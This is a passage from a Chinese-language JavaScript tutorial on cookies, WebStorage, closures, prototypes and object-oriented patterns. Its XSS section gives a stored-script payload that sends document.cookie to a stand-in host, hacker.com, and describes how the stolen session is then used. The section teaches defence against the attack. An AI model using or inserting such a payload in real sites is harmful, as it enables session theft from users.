| `HttpOnly` | 禁止 JavaScript 访问（防 XSS） | `HttpOnly` ❌ 无法用 `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">document.cookie</font>**` 设置，必须由服务器通过 HTTP 响应头设置。 |

一个较完整的设置 cookie 的示例：

```javascript
document.cookie = "username=JohnDoe" + 
  "; expires=Fri, 31 Dec 2025 23:59:59 GMT" +  // 过期时间（GMT 格式）
  "; max-age=3600" +                           // 1 小时有效期（优先级高于 expires）
  "; domain=.example.com" +                    // 对 example.com 及其子域有效
  "; path=/" +                                 // 全站路径可访问
  "; Secure";                                  // 仅 HTTPS 传输
```

### 前端 document.cookie 的访问权限规则

**1. Cookie 设置了 HttpOnly**

- Cookie 的 HttpOnly 标志只能由服务端设置。（服务器会在响应头中设置 HttpOnly 标志，响应头的格式：`<font style="color:rgb(15, 17, 21);">Set-Cookie: cookie名称=cookie值; HttpOnly</font>`）
- 如果服务器创建了 Cookie，并且设置了 Cookie 的HttpOnly 标志，将来 Cookie 响应到前端后，在前端通过 `<font style="color:rgb(15, 17, 21);background-color:rgb(235, 238, 242);">document.cookie</font>` 是**完全无法读取的**
- 这是专门为防止XSS攻击设计的安全特性

**2. 未设置Domain（域名）的Cookie**

- 假设你在 `<font style="color:rgb(15, 17, 21);">www.example.com</font>`域名下生成的 Cookie，并且没有手动设置 Cookie 的 Domain 属性。
- 那你只能在完全相同的域名下才能使用 document.cookie 访问该 Cookie。必须是完全相同的域名，子域名也不行。
- 示例：在 `<font style="color:rgb(15, 17, 21);background-color:rgb(235, 238, 242);">www.example.com</font>` 设置的cookie，在 `<font style="color:rgb(15, 17, 21);background-color:rgb(235, 238, 242);">blog.example.com</font>` 无法读取

**3. 设置了Domain的Cookie**

- 可在指定域名及其所有子域名下通过 `<font style="color:rgb(15, 17, 21);background-color:rgb(235, 238, 242);">document.cookie</font>` 读取
- 示例：设置 `<font style="color:rgb(15, 17, 21);background-color:rgb(235, 238, 242);">domain=.example.com</font>` 后，在 `<font style="color:rgb(15, 17, 21);background-color:rgb(235, 238, 242);">www.example.com</font>`、`<font style="color:rgb(15, 17, 21);background-color:rgb(235, 238, 242);">api.example.com</font>` 都能访问

**4. Path路径限制**

- 如果创建 Cookie 时指定了 Path 属性，则只能在指定路径及其子路径下通过 `<font style="color:rgb(15, 17, 21);background-color:rgb(235, 238, 242);">document.cookie</font>` 访问
- 示例：设置 `<font style="color:rgb(15, 17, 21);background-color:rgb(235, 238, 242);">path=/admin</font>` 后，只有在 `<font style="color:rgb(15, 17, 21);background-color:rgb(235, 238, 242);">/admin/*</font>` 路径下的页面才能读取

### XSS 攻击

**第一步：黑客输入恶意评论**

假设一个没有防护的博客评论区，黑客不写正常评论，而是输入：

```html
<script>
var img = new Image();
img.src = 'http://hacker.com/steal?cookie=' + document.cookie;
</script>
```

**第二步：网站存储了恶意代码**

由于网站没有对用户输入进行过滤，这条评论连同`<script>`标签一起被存到了数据库里。

**第三步：其他用户访问页面**

当普通用户访问这篇博客时，网页从数据库加载评论并直接显示在页面上。此时，浏览器会**执行**那段恶意脚本。

**第四步：恶意代码执行**

`document.cookie` 会自动获取该用户在当前网站下的所有cookie（可能包含登录会话ID等敏感信息），然后通过创建一个Image对象的请求，将cookie发送到黑客的服务器：

```plaintext
http://hacker.com/steal?cookie=sessionId=abc123; userId=456
```

**第五步：黑客获取cookie**

黑客在自己的服务器 `hacker.com` 上就能收到受害用户的cookie，然后他就可以：

1. 用这个sessionId冒充受害用户登录
2. 查看用户隐私数据
3. 以用户身份进行各种操作

### 记住用户登录状态

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Cookie记住登录状态</title>
</head>
<body>
  <button id="loginBtn">登录</button>
  <button id="checkLoginBtn">检查是否已经登录</button>
  <button id="logoutBtn">退出登录</button>
  <div id="tipMsg"></div>
  <script>
    document.addEventListener('DOMContentLoaded', function(){
      document.querySelector('#loginBtn').addEventListener('click', function(){
        // 7天后过期
        const expires = new Date();
        expires.setDate(expires.getDate() + 7);
        // 设置cookie
        document.cookie = `username=admin; expires=${expires.toUTCString()}; path=/`;
        document.querySelector('#tipMsg').textContent = '登录成功';
      });
      document.querySelector('#checkLoginBtn').addEventListener('click', function(){
        let cookies = document.cookie;
        let isLogin = false;
        if(cookies){
          cookies = cookies.split('; ');
          const usernameCookie = cookies.find(cookie => cookie.startsWith('username='));
          if(usernameCookie){
            const username = usernameCookie.split('=')[1];
            isLogin = true;
            document.querySelector('#tipMsg').textContent = `您已经登录了哦！欢迎您${username}`;
          } 
        }
        if(!isLogin){
          document.querySelector('#tipMsg').textContent = '您还没有登录哦！';
        }
      });
      document.querySelector('#logoutBtn').addEventListener('click', function(){
        // 设置过期
        document.cookie = 'username=; expires=Thu, 01 Jan 1970 00:00:00 UTC; path=/';
      });
    });
  </script>
</body>
</html>
```

## WebStorage

### 什么是 WebStorage？

**JS 内置了两个对象，可以直接用：**

`localStorage`：永久存储，除非手动清除。

`sessionStorage`：会话级存储，关闭标签页后自动清除。

---

**特点：**

- 同一域名下的任何页面都可以访问全部localStorage（不同域名下不允许）
- 数据不会自动随HTTP请求发送到服务器
- 只有浏览器中的JavaScript可以访问，服务器无法直接访问
- 容量大，通常5-10MB，远大于cookie的4KB
- **易受XSS攻击**：一旦网站存在XSS漏洞，攻击者可以轻易读取所有数据

### WebStorage 的基本操作

**存储数据**

```javascript
localStorage.setItem('theme', 'dark'); // 永久存储
sessionStorage.setItem('token', 'abc123'); // 会话级存储
```

**读取数据**

```javascript
const theme = localStorage.getItem('theme'); // "dark"
const token = sessionStorage.getItem('token'); // "abc123"
```

**删除数据**

```javascript
localStorage.removeItem('theme'); // 删除单个键
sessionStorage.clear(); // 清空所有 sessionStorage 数据
```

**Chrome 浏览器 F12 面板上查看**



### 存储复杂数据（JSON 转换）

```javascript
const user = { name: "John", age: 30 };

// 存储对象（需转为 JSON）
localStorage.setItem('user', JSON.stringify(user));

// 读取对象（解析 JSON）
const storedUser = JSON.parse(localStorage.getItem('user'));
console.log(storedUser.name); // "John"
```

### 保存用户主题偏好

```html
<!DOCTYPE html>
<html>
<body class="light">
    <button onclick="toggleTheme()">切换主题</button>
    <p>这是一个演示页面</p>

    <script>
        // 加载时应用保存的主题
        const saved = localStorage.getItem('theme');
        if (saved) document.body.className = saved;

        function toggleTheme() {
            const newTheme = document.body.className === 'light' ? 'dark' : 'light';
            document.body.className = newTheme;
            localStorage.setItem('theme', newTheme);
        }
    </script>

    <style>
        body.light { background: white; color: black; }
        body.dark { background: black; color: white; }
    </style>
</body>
</html>
```

### 表单草稿保存

```html
<!DOCTYPE html>
<html>
<body>
    <input id="n" placeholder="姓名">
    <button onclick="s()">提交</button>

    <script>
        // 加载草稿
        const d = localStorage.getItem('d');
        if (d) document.getElementById('n').value = d;

        // 输入时保存
        document.getElementById('n').oninput = function() {
            localStorage.setItem('d', this.value);
        };

        // 提交
        function s() {
            alert('提交：' + document.getElementById('n').value);
            localStorage.removeItem('d');
            document.getElementById('n').value = '';
        }
    </script>
</body>
</html>
```

## Cookie vs. WebStorage

| **特性** | **Cookie** | **localStorage** | **sessionStorage** |
| --- | --- | --- | --- |
| **存储大小** | ~4KB | ~5-10MB | ~5-10MB |
| **生命周期** | 可设置过期时间 | 永久存储 | 会话级存储 |
| **是否随请求发送** | 是（影响性能） | 否 | 否 |
| **适用场景** | 会话管理、小数据 | 长期缓存 | 临时数据 |

**如何选择？敏感数据用HttpOnly Cookie，非敏感大数据用localStorage（长期），会话数据用sessionStorage（临时）。**

---

**安全注意事项**

- **Cookie**：
  - 敏感数据应设置 `HttpOnly` 和 `Secure`。
  - 防范 CSRF（使用 `SameSite` 属性，限制Cookie的发送范围，防止跨站请求自动携带）。
- **WebStorage**：避免存储敏感信息，对用户输入进行转义，防止 XSS。

## CSRF 攻击

### 理解 CSRF

CSRF 攻击就是通常所说的钓鱼网站。

**第一步：登录银行**

- 你在 `www.your-bank.com` 登录，浏览器保存了银行的Session Cookie。
- **关键**：这个Cookie的Domain是 `.your-bank.com`。

**第二步：访问黑客网站**

- 黑客给了你一个感兴趣的东西。你很好奇，点击链接访问 `www.hacker-site.com`。

**第三步：黑客网站的"小动作"（关键步骤）**

- 黑客在他的网站 `www.hacker-site.com` 上放置了这样的代码：

```html

```

**第四步：浏览器的"自动行为"（核心机制）**

- 当浏览器加载黑客网站时，会**自动向 **`www.your-bank.com`** 发起请求**（加载图片或提交表单）。
- 发起这个请求时，浏览器会**自动携带**你在 `your-bank.com` 域名下的Cookie。
- 银行服务器收到请求，看到合法的Session Cookie，就执行了转账操作。

### 防范 CSRF

**CSRF Token（最常用）**

- **原理**：每个表单或请求都携带一个随机令牌，服务器验证令牌有效性（**黑客拿不到这个令牌，自然它发的请求，服务器不认**）
- **实现**：

```html
<!-- 表单中隐藏一个随机Token -->
<form action="/transfer" method="POST">
  <input type="hidden" name="csrf_token" value="a1b2c3d4e5f6">
  <input type="text" name="amount">
  <button>转账</button>
</form>
```

---

**SameSite Cookie 属性**

- **原理**：限制Cookie的发送范围，防止跨站请求自动携带（黑客网站向银行发送请求时，这样的 Cookie 不会被携带，因为跨站了。）
- **实现**：

```http
Set-Cookie: sessionId=abc123; SameSite=Strict
```

- **SameSite=Strict**：完全禁止跨站发送

# 函数式编程


**函数式编程（Functional Programming, FP）是一种以函数为核心**的编程范式，函数可以作为参数，返回值，变量等。

## 体验函数式编程

### JS 中的函数是一等公民

函数中可以嵌套函数，函数可以作为方法的参数，函数可以作为返回值。请看一下代码：函数中嵌套函数，函数作为返回值

```javascript
// 外部函数
function outer(){
    // 内部函数
    function inner(username){
        console.log(`Hello ${username}`);
    }
    // 函数也是对象，可以将函数返回给调用者。
    return inner;
}

// 调用者无法直接访问内部函数
//inner(); // 报错：inner is not defined
// 可以通过调用外部函数拿到内部函数（innerFun是一个指向内部函数的一个变量）
const innerFun = outer();
// 虽然是变量，但可以当做内部函数使用。
innerFun('Tom');
```

执行结果如下：



函数也可以作为参数，如下代码：

```javascript
function fun(funParam){
    funParam('Tom');
}

fun(
    function sayHello(username){
        console.log(`hello ${username}`);
    }
);

// 当然以上函数也可以以箭头函数的方式传递
fun((username) => {
    console.log(`Hi, ${username}`);
});
```

执行结果如下：



### 函数的作用域链

在JavaScript中，作用域链的工作方式是：**内层函数可以访问外层函数的变量，但外层函数不能访问内层函数的变量**。

**代码示例**：

```javascript
function a(){
    let aVar = 'a函数中的变量';
    function b(){
        console.log(`在b函数中可以访问a函数中的变量：${aVar}`);
        let bVar = 'b函数中的变量';
        console.log(`在b函数中当然可以访问b函数中的变量：${bVar}`);
    }
    // 调用函数b
    b();
    //console.log(`在a函数中无法访问b函数中的变量，这样会报错：${bVar}`);
}
// 调用函数a
a();
```

### 纯函数 vs 非纯函数

纯函数（以下是纯函数的特点）

1. **只要传入的参数（输入）相同，函数就一定会返回相同的结果（输出），不会有任何意外情况。值是稳定的。**
2. **只依赖输入参数**，不依赖外部变量（全局变量、外层作用域变量等）。
3. **不会修改外部状态**（不改变全局变量、不修改传入的参数、不执行 I/O 操作等）。

**纯函数 vs 非纯函数**：

```javascript
// 纯函数
function square(x) {
  return x * x;
}

// 非纯函数
let taxRate = 0.1;
function calculateTax(amount) {
  return amount * taxRate; // 依赖外部状态
}
```

## 数组的常用函数式方法

### map - 数据转换

**map 方法遍历数组的每个元素，按照你提供的规则转换它们，并返回一个新数组**。

map 的参数是一个函数，通过这个函数来描述转换规则：

```javascript
const numbers = [1, 2, 3];
const squares = numbers.map(x => x * x); // [1, 4, 9]
```

### filter - 数据筛选

filter 的参数是一个函数，通过这个函数来描述过滤规则：

```javascript
const numbers = [1, 2, 3, 4, 5];
const evens = numbers.filter(x => x % 2 === 0); // [2, 4]
```

### reduce - 数据聚合

reduce 的参数是一个函数，通过这个函数来描述累加规则：

```javascript
const numbers = [1, 2, 3, 4];
const sum = numbers.reduce((acc, x) => acc + x, 0); // 10
```

## 闭包（了解）

### 闭包的形成

**通俗理解**：闭包就像是一个背包，当一个函数出生时，它会随身携带一个背包，里面装着它出生时周围的所有变量。

**核心特点**：函数可以记住并访问它被创建时的作用域，即使这个函数在其他地方执行

**生活比喻**：就像你搬家到另一个城市，但仍然记得老家的方言和习惯。

**代码示例**：

```javascript
function createGreeter(greeting) {
  // 内部函数使用了外部函数的变量，这样的内部函数可以看做是一个闭包
  return function(name) {
    console.log(`${greeting}, ${name}!`);
  };
}

// 内部函数出生：sayHello、sayHi就是出生的新函数的名字。
const sayHello = createGreeter("Hello");

// createGreeter函数在上面已经执行结束了
// 但调用内部函数的时候，内部函数还可以继续使用当时出生时的外部函数的变量。
sayHello("Alice"); // "Hello, Alice!"
```

在这段代码中，闭包的体现是从 `return function(name) {...}` 开始，直到这个内部函数结束（即 `}` 之前）。

具体来说，闭包体现在：

1. 内部函数 `function(name) {...}` 访问了外部函数 `createGreeter` 的参数 `greeting`
2. 即使外部函数 `createGreeter` 执行完毕，内部函数仍然保持着对 `greeting` 的引用

完整定义闭包的语法：

```javascript
return function(name) {
  console.log(`${greeting}, ${name}!`);
};
```

闭包的关键特征是：

- 函数嵌套（闭包被嵌套在一个函数中或一个对象中）
- 内部函数引用了外部函数的变量
- 内部函数被返回，可以在外部函数执行完毕后继续使用

所以当你这样使用时：

```javascript
const sayHello = createGreeter("Hello");
sayHello("Alice");  // 仍然能访问到 "Hello" 这个 greeting
```

`sayHello` 函数就是一个闭包，它记住了创建时的 `greeting` 值。

**闭包 = 函数 + 该函数访问的外部变量**

### 闭包的经典应用

#### 数据私有化（模块模式）

**问题**：如何创建真正的私有变量？
**解决方案**：使用闭包

**代码示例**：

```javascript
function createBankAccount(){
    // 外部函数的变量
    let balance = 0;
    // 一个普通对象
    const bankAccount = {
        // 对象内部的函数
        deposit(amount){
            balance += amount;
            console.log(`存入 ${amount}, 当前余额: ${balance}`);
        },
        // 对象内部的函数
        withdraw(amount){
            if (amount > balance) {
                console.log("余额不足");
            } else {
                balance -= amount;
                console.log(`取出 ${amount}, 当前余额: ${balance}`);
            }
        },
        // 对象内部的函数
        checkBalance(){
            console.log(`当前余额: ${balance}`);
        }
    };
    // 对象中有函数，返回了对象就等于是返回了函数。
    // 被返回的函数由于使用了外部函数的变量，因此外部函数的变量会一直存活，即使外部函数已经执行结束了。
    // 被返回的函数就是一个闭包。
    return bankAccount;
}
const bankAccount = createBankAccount();
// 对于账户来说能取款能存款，给人的感觉是这个账户上是有余额属性的。
bankAccount.deposit(500); // 存入 500, 当前余额: 500
bankAccount.withdraw(200); // 取出 200, 当前余额: 300
// 但是余额属性访问不了，就像私有了一样。
console.log(bankAccount.balance); // undefined (无法直接访问)
```

#### 函数工厂

**应用场景**：创建多个功能类似但配置不同的函数

**代码示例**：

```javascript
function createMultiplier(factor) {
  // 闭包
  return function(number) {
    return number * factor;
  };
}

// 创建一个完成两倍的函数。
// 内部函数double出生时记住了外部函数的factor=2
const double = createMultiplier(2);
// 创建一个完成三倍的函数。
const triple = createMultiplier(3);

console.log(double(5)); // 10
console.log(triple(5)); // 15
```

## 函数式编程之高阶函数

**定义**：什么叫做高阶函数：能够操作函数的函数叫做高阶函数。普通函数操作的是数据。

**代码示例**：

```javascript
//接收函数作为参数
function doTwice(func, value) {
  // 高阶函数的操作行为。
  return func(func(value));
}

function add5(x) {
  return x + 5;
}

console.log(doTwice(add5, 10)); // 20 (10+5=15, 15+5=20)
```

## 函数式编程之函数组合

**概念**：将多个简单函数组合成复杂函数

**代码示例**：

```javascript
function compose(...fns){
  // 闭包
  function compute(x){
    // reduce()方法是从左到右
    // reduceRight()方法是从右到左
    // 遍历数组fns，然后取出数组中每一个函数f(reduceRight是从数组的右侧开始取函数)
    return fns.reduceRight((v, f) => f(v), x);
  }
  return compute;
}

const add1 = x => x + 1;

const double = x => x * 2;
const square = x => x * x;

// transform是计算函数compute
const transform = compose(square, double, add1);

console.log(transform(2)); // ((2 + 1) * 2) * ((2 + 1) * 2) = 36
```

## 函数式编程之柯里化

**定义**：将多参数函数转换为一系列单参数函数的技术（英文叫 **Currying**，名字来源于数学家 **Haskell Curry**）

**代码示例**：

```javascript
// 普通函数
function add(a, b, c) {
  return a + b + c;
}

// 柯里化版本
function curryAdd(a) {
  // 闭包
  return function(b) {
    // 闭包
    return function(c) {
      return a + b + c;
    };
  };
}

// 使用箭头函数简化
const curryAdd = a => b => c => a + b + c;

console.log(curryAdd(1)(2)(3)); // 6

// 实用示例：创建特定功能的函数
const add5 = curryAdd(2)(3); // 固定前两个参数s
console.log(add5(10)); // 15 (2+3+10)
```

柯里化最大的作用就是：可以固定部分参数的值。

## 实战练习

### 练习1：实现一个简单的计数器工厂

```javascript
function createCounter() {
  // 在这里实现
}

const counter1 = createCounter();
console.log(counter1()); // 1
console.log(counter1()); // 2

const counter2 = createCounter();
console.log(counter2()); // 1
```

### 练习2：使用函数式方法处理数据

```javascript
const users = [
  { name: "Alice", age: 25 },
  { name: "Bob", age: 30 },
  { name: "Charlie", age: 20 }
];

// 1. 获取所有用户的名字（提示：用数组的map方法）

// 2. 获取年龄大于25的用户（提示：用数组的filter方法）

// 3. 计算所有用户的平均年龄（提示：用数组的reduce方法）
```

# 原型对象(Prototype)


在 JavaScript 中，对象的 `prototype` 属性是理解原型继承（Prototypal Inheritance）的核心概念。以下是详细解释：

## `prototype` 是什么

- **函数的 **`prototype`** 属性**：
只有**函数对象**（包括构造函数）拥有显式的 `prototype` 属性。返回值被称为**原型对象**，用于存储该函数作为构造函数时，所有实例**共享的属性和方法**。

```javascript
function Person(name) {
  this.name = name;
}
// 函数的 prototype 属性
Person.prototype.sayHello = function() {
  console.log(`Hello, ${this.name}!`);
};
```

- **对象的 **`[[Prototype]]`** 链**：
普通对象（非函数）没有 `prototype` 属性，但有一个内部指针 `[[Prototype]]`（可通过 `__proto__` 或 `Object.getPrototypeOf()` 访问）。它指向该对象的**原型对象**（即其构造函数的 `prototype`）。

```javascript
const john = new Person("John");
console.log(john.__proto__ === Person.prototype); // true
console.log(Person.prototype === Object.getPrototypeOf(john)); // true
```

**原型对象的作用：****原型对象用于共享属性和方法。所有通过该构造函数创建的实例都会继承原型对象上的成员。**

## `prototype` 的作用

### 实现继承

当访问一个对象的属性/方法时，如果对象自身没有该成员，JavaScript 会通过 `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">__proto__</font>**` 向上查找其原型对象，若仍未找到，则继续查找原型对象的原型对象，直到顶层（`**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">Object.prototype</font>**`），这种链式结构称为**原型链**。

**示例：**

```javascript
console.log(john.toString()); // 调用的是 Object.prototype.toString()
```

**查找过程**：

1. 检查 `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">john</font>**` 自身是否有 `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">toString()</font>**` → 无
2. 检查 `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">john.__proto__</font>**`（即 `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">Person.prototype</font>**`）→ 无
3. 检查 `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">Person.prototype.__proto__</font>**`（即 `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">Object.prototype</font>**`）→ 找到，调用

以下代码实现继承关系：

```javascript
// 父类
function Shape(color) {
  this.color = color;
}

Shape.prototype.getColor = function() {
  return this.color;
};

// 子类
function Circle(color, radius) {
  // 调用父类构造方法
  Shape.call(this, color);
  // 子类特有属性
  this.radius = radius;
}

// 继承原型
// 这是必须的，如果不写这一行，就不算完整的原型继承。
// 如果不写：Circle的实例将无法继承Shape原型上的方法（如getColor）。Circle.prototype会直接指向默认的Object.prototype，而不是Shape.prototype。原型链就断了。
Circle.prototype = Object.create(Shape.prototype);
// 这一行不是绝对必须的，但强烈建议写上，如果不写：Circle.prototype.constructor会指向Shape。
Circle.prototype.constructor = Circle;

Circle.prototype.getArea = function() {
  return Math.PI * this.radius * this.radius;
};

const circle = new Circle('red', 5);
console.log(circle.getColor());  // 输出: red
console.log(circle.getArea());   // 输出: 78.53981633974483
```

### 共享属性和方法

- 原型链上的所有属性和方法都是所有实例共享的，目的是节省内存：

```javascript
const alice = new Person("Alice");
console.log(john.sayHello === alice.sayHello); // true
```

### 动态扩展功能

- 即使实例已创建，修改原型仍会影响所有实例：

```javascript
Person.prototype.goodbye = function() {
  console.log(`Goodbye, ${this.name}!`);
};
john.goodbye(); // 动态新增的方法对所有实例生效
```

- 当然，内置的对象也可以动态扩展功能：

```javascript
Array.prototype.last = function(){
  return this[this.length - 1];
}

const arr = [1, 2, 3];
console.log(arr.last());  // 输出: 3
```

## 原型链的终点

- 原型链的顶端是 `Object.prototype`，其 `[[Prototype]]` 为 `null`：

```javascript
console.log(Object.getPrototypeOf(Object.prototype)); // null
```

## 区分自身属性和原型属性

Object 的 hasOwn 方法用来区分自身属性和原型属性：

```javascript
function Car(model) {
  this.model = model;
}

Car.prototype.brand = 'Toyota';

const myCar = new Car('Camry');

console.log(Object.hasOwn(myCar,'model'));  // true（自身）
console.log(Object.hasOwn(myCar,'brand'));  // false（原型）
```

# 面向对象


JS 的面向对象是基于原型的(prototype-based)，而不是基于类的(class-based)。

JS 中几乎所有东西都是对象，或是基于对象的。没有传统面向对象语言中的"类"。

ES6 虽然提供了 class 关键字，底层仍然是基于原型的。

## 对象的创建

### 工厂模式

```javascript
function createPerson(name, age) {
  return {
    // ECMAScript 6 (ES6) 之后，JavaScript 引入了更简洁的对象字面量语法
    // 当属性名和变量名相同时可以这样简写。完整写法  name: name
    name,
    age,
    greet() {
      console.log(`你好，我是${this.name}`);
    }
  };
}

const person1 = createPerson('李四', 25);
person1.greet();
```

**适用场景**：需要创建多个相似对象，但不需要复杂继承关系时。

### 构造函数模式（ES5常用方式）

```javascript
function Person(name, age) {
  this.name = name;
  this.age = age;
  
  this.greet = function() {
    console.log(`你好，我是${this.name}`);
  };
}

const person2 = new Person('王五', 28);
person2.greet();
```

**注意**：实际开发中，方法应该定义在原型上，避免每个实例都创建新方法。

### 原型模式（方法共享）

```javascript
function Person(name, age) {
  this.name = name;
  this.age = age;
}

Person.prototype.greet = function() {
  console.log(`你好，我是${this.name}`);
};

const person3 = new Person('赵六', 32);
person3.greet();
```

**实际应用**：这是ES5时代最常用的面向对象模式，方法共享，节省内存。

### ES6 class语法（现代开发首选）

```javascript
class Person {
  constructor(name, age) {
    this.name = name;
    this.age = age;
  }
  
  greet() {
    console.log(`你好，我是${this.name}`);
  }
  
  // 静态方法
  static createAnonymous() {
    return new Person('匿名', 0);
  }
}

const person4 = new Person('钱七', 35);
person4.greet();

const anonymous = Person.createAnonymous();
anonymous.greet(); // 你好，我是匿名
```

**最佳实践**：现代JavaScript开发中，class语法是首选，它更清晰，且底层仍然是基于原型的。

## 封装

在 JavaScript 中，没有真正的私有属性（直到 ES2019 的 `#` 私有字段语法），但可以通过约定和闭包来模拟。下面分别介绍这两种方法：

### 通过约定实现私有属性

这是一种命名约定，通过在属性名前加下划线 `_` 来表示这是一个"私有"属性，但实际上它仍然是公开的，只是开发者约定不去直接访问它。

```javascript
class User {
  constructor(name, age) {
    this.name = name;    // 公开属性
    this._age = age;     // "私有"属性（约定）
  }

  getAge() {
    return this._age;
  }

  setAge(newAge) {
    if (newAge > 0) {
      this._age = newAge;
    }
  }
}

const user = new User('Alice', 30);
console.log(user.name);     // 可以直接访问
console.log(user._age);     // 也可以访问，但约定不应该这样做
console.log(user.getAge()); // 应该通过方法访问
```

以上代码在 ES6 之后引入了新的语法，代码如下：

setter 方法前添加 set 关键字，getter 方法前添加 get 关键字

给属性赋值时：setter 方法自动执行。

读取属性值是：getter 方法自动执行。

```javascript
class User {
  constructor(name, age) {
    this.name = name;    // 公开属性
    this._age = age;     // "私有"属性（约定）
  }
  // getter
  get age() {
    return this._age;
  }
  // setter
  set age(newAge) {
    if (newAge > 0) {
      this._age = newAge;
    }
  }
}

const user = new User('Alice', 30);

user.age = 30; // 通过setter方法给属性赋值
console.log(user.age); // 通过getter方法访问
```

### 通过闭包模拟私有属性

闭包可以创建真正的私有变量，外部无法直接访问，只能通过暴露的方法来操作。

```javascript
function createBankAccount(){
    // 外部函数的变量
    let balance = 0;
    // 一个普通对象
    const bankAccount = {
        // 对象内部的函数
        deposit(amount){
            balance += amount;
            console.log(`存入 ${amount}, 当前余额: ${balance}`);
        },
        // 对象内部的函数
        withdraw(amount){
            if (amount > balance) {
                console.log("余额不足");
            } else {
                balance -= amount;
                console.log(`取出 ${amount}, 当前余额: ${balance}`);
            }
        },
        // 对象内部的函数
        checkBalance(){
            console.log(`当前余额: ${balance}`);
        }
    };
    // 对象中有函数，返回了对象就等于是返回了函数。
    // 被返回的函数由于使用了外部函数的变量，因此外部函数的变量会一直存活，即使外部函数已经执行结束了。
    // 被返回的函数就是一个闭包。
    return bankAccount;
}

const bankAccount = createBankAccount();
bankAccount.deposit(500); // 存入 500, 当前余额: 500
bankAccount.withdraw(200); // 取出 200, 当前余额: 300
console.log(bankAccount.balance); // undefined (无法直接访问)
```

### 现代 JavaScript 的私有字段 (ES2019+)

现代 JavaScript 已经支持真正的私有字段（使用 `#` 前缀）：

```javascript
class User {
  #age;  // 真正的私有字段

  constructor(name, age) {
    this.name = name;
    this.#age = age;
  }

  get age() {
    return this.#age;
  }
}

const user = new User('Charlie', 40);
console.log(user.name);     // Charlie
//console.log(user.#age);     // SyntaxError: Private field '#age' must be declared in an enclosing class
console.log(user.age); // 40
```

这三种方法各有优缺点，约定方法最简单但不强制，闭包方法最灵活但可能影响性能，私有字段语法最标准但需要较新的 JavaScript 环境支持。

## 多态

多态的核心思想是：**不同子类可以对父类的同一方法提供不同的实现**，但在调用时可以通过父类引用统一处理，而实际执行的是子类的方法。

```javascript
class Person{
  constructor(name){
    this.name = name;
  }
  speak(){}
  doSome(){
    console.log('do some');
  }
}

class EnglishPerson extends Person{
  constructor(name){
    super(name);
  }
  speak(){
    console.log(`hello, my name is ${this.name}`);
  }
}

class ChinesePerson extends Person{
  constructor(name){
    super(name);
  }
  speak(){
    console.log(`你好，我的名字叫${this.name}`);
  }
}

const persons = [new EnglishPerson('jack'), new ChinesePerson('杰克')];
persons.forEach((person) => {
  person.speak();
  person.doSome();
});
```

JS 是天生的多态，因为它是弱类型的。

## 组合优于继承

在 JavaScript 中，"组合优于继承"意味着通过将小型、独立的函数或对象灵活地组合在一起来构建复杂功能，比通过继承层级扩展类更可取。组合提供了更高的灵活性、更低的耦合度，以及更好的代码复用性，允许在运行时动态调整行为，而继承则容易导致僵化的层级结构和脆弱的父类依赖。这种范式鼓励"有一个"（has-a）的关系而非"是一个"（is-a）的关系，使代码更模块化、更易于维护和扩展。

### 对象组合 + 工厂函数（最常用）

**场景**：构建可复用的业务模块（如用户权限系统）

```javascript
// 定义可组合的行为
const canLog = {
  log(msg) { console.log(msg) }
};

const canFetch = {
  async fetch(url) { 
    const res = await fetch(url);
    return res.json();
  }
};

// 工厂函数组合对象
function createApiService() {
  return {
    ...canLog,
    ...canFetch,
    async getData(url) {
      this.log(`Fetching ${url}`);
      return this.fetch(url);
    }
  };
}

// 使用
const api = createApiService();
api.getData('https://api.example.com');
```

**为什么推荐**：

- 完全避免 `class` 和 `extends`
- 行为像乐高一样随意组合
- 适合业务逻辑封装

### 函数组合 + 闭包（函数式风格）

**场景**：数据处理管道（如表单验证、数据转换）

```javascript
// 原子函数
const validate = (value) => value !== '';
const sanitize = (value) => value.trim();
const format = (value) => `${value}@email.com`;

// 组合函数（类似 pipe）
const processInput = (value) => {
  return format(sanitize(validate(value) ? value : 'default'));
};

// 使用
processInput('  foo  '); // "foo@email.com"
```

**优化版（可读性更强）**：

```javascript
const pipe = (...fns) => (x) => fns.reduce((v, f) => f(v), x);

const processInput = pipe(
  value => validate(value) ? value : 'default',
  sanitize,
  format
);
```

**为什么推荐**：

- 无继承、无 this
- 适合 React/Vue 的 hooks 思想
- 方便单元测试

### 策略模式 + 对象字面量（替代继承树）

**场景**：支付方式/算法切换

以下代码是采用组合方式实现的策略模式。不建议使用继承方式实现策略模式。

```javascript
// 对象字面量
const paymentStrategies = {
  wechat: (amount) => `微信支付 ${amount}元`, // 策略1
  alipay: (amount) => `支付宝 ${amount}元`, // 策略2
  card: (amount) => `信用卡支付 ${amount}元` // 策略3
};

// 上下文：负责根据客户端的选择来使用不同的策略
function checkout(amount, type) {
  return paymentStrategies[type]?.(amount) || '未知支付方式';
}

// 使用
checkout(100, 'wechat'); // "微信支付 100元"
```

**为什么推荐**：

- 比继承实现的策略模式更简洁
- 新增策略只需修改对象，符合开闭原则
- 适合配置化系统

### 依赖注入 + 构造函数

